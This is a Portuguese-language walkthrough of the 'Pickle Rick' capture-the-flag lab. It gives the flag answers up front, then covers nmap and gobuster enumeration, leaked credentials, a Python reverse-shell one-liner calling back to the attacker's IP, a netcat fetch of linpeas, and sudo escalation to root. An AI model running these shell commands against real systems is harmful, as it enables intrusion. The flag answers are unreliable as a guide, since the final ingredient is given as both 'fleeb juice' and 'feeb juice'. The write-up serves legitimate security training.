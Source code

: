 # Lab: Pickle Rick (Easy Mode)

## TASKs:

1. **What is the first ingredient that Rick needs?** `mr. meeseek hair`
2. **What is the second ingredient in Rick’s potion?** `1 jerry tear`
3. **What is the last and final ingredient?** `fleeb juice`

---

```
export IP=10.10.89.179
```
```
ip addr show tun0 # 10.8.32.62/16
```

---

## 1) Enumeração com Nmap
```bash
nmap -A $IP
```
**Resultados:**
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
**Fonte:** http://10.10.89.179/ -> **Username:** R1ckRul3s

---

## 2) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Diretórios e Arquivos Encontrados:**
```
/assets/
/robots.txt -> Wubbalubbadubdub
/login.php -> Username: R1ckRul3s , Password: Wubbalubbadubdub
/portal.php -> (INFO: Após Login!) Command Panel: "ls", "less", "grep .", "grep -R ." -> (toda a info de todos os ficheiros)
```
**Flags Identificadas:**
```
Sup3rS3cretPickl3Ingred.txt: mr. meeseek hair (INFO: FLAG!)
clue.txt: Look around the file system for the other ingredient.
```
**Comandos Não Permitidos:**
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

**Possível Codificação Base64:**
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

---

## 3) Decodificação Base64
```bash
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```
**Resultado:**
```
rabbit hole
```

---

## 4) Verificação e Exploração Python
```bash
python3 -c "print('hello')" # Verificar se python3 está disponível
```
**Reverse Shell (Github Reverse Shell CheatSheet)**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.32.62",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```
**Listener no Terminal:**
```bash
netcat -lnvp 9999
```

---

## 5) Estabilização de Shell
**Erro apresentado:**
```
/bin/sh: 0: can't access tty; job control turned off
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Correção:**
```bash
export TERM=xterm
ls
```

---

## 6) Escalada de Privilégios
```bash
stabilize_shell3.sh
upload_file_nc.sh /opt/linpeas.sh
```
**Execução do Linpeas:**
```bash
nc -q 0 10.8.9.112 19934 > /dev/shm/lin
cd /dev/shm
ls # linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
**Identificação:**
```
(ALL) NOPASSWD: ALL (INFO: Acesso total sem senha)
```
**Escalação para Root:**
```bash
sudo bash
```
**Flags Encontradas:**
```bash
ls # 3rd.txt
cat 3rd.txt # feeb juice
```
**Exploração de Diretórios de Usuário:**
```bash
cd /home
ls # rick
cd rick/
ls # second ingredientes
cat * # 1 jerry tear
```
